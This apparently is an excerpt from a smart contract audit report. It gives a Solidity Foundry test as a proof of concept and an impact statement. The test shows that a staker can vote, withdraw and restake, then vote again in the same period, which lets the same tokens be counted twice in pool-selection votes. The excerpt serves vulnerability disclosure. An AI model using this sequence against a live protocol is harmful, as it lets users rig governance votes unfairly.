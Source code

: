 Scenario 2:

```solidity
function testGT_vote_twice_with_the_same_stake() public {
        vm.prank(DEV);
        _voter.updateMinimumLockTime(2 weeks);

        _stakingToken.mint(ALICE, 1 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 2 weeks);
        vm.stopPrank();

        skip(1 weeks);

        vm.prank(DEV);
        _voter.startNewVotingPeriod();

        vm.startPrank(ALICE);
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
        vm.expectRevert(IVoter.IVoter__AlreadyVoted.selector);
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
        vm.stopPrank();

        assertEq(_voter.getTotalVotes(), 1 ether);

        skip(1 weeks + 1);

        vm.startPrank(ALICE);
        _pool.withdrawFromPosition(1, 1 ether);
        vm.stopPrank();

        vm.startPrank(ALICE);
        vm.expectRevert();
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 2 weeks);
        _voter.vote(2, _getDummyPools(), _getDeltaAmounts());
        vm.stopPrank();

        assertEq(_voter.getTotalVotes(), 2 ether);
    }
```

## Impact

A user can vote with stale staking position, then withdraw the staking position with any consequences. 
Additionally, a user can periodically vote twice with the same balance of staking tokens for the same pool to increase unfairly the chance of the pool being selected for further processing.
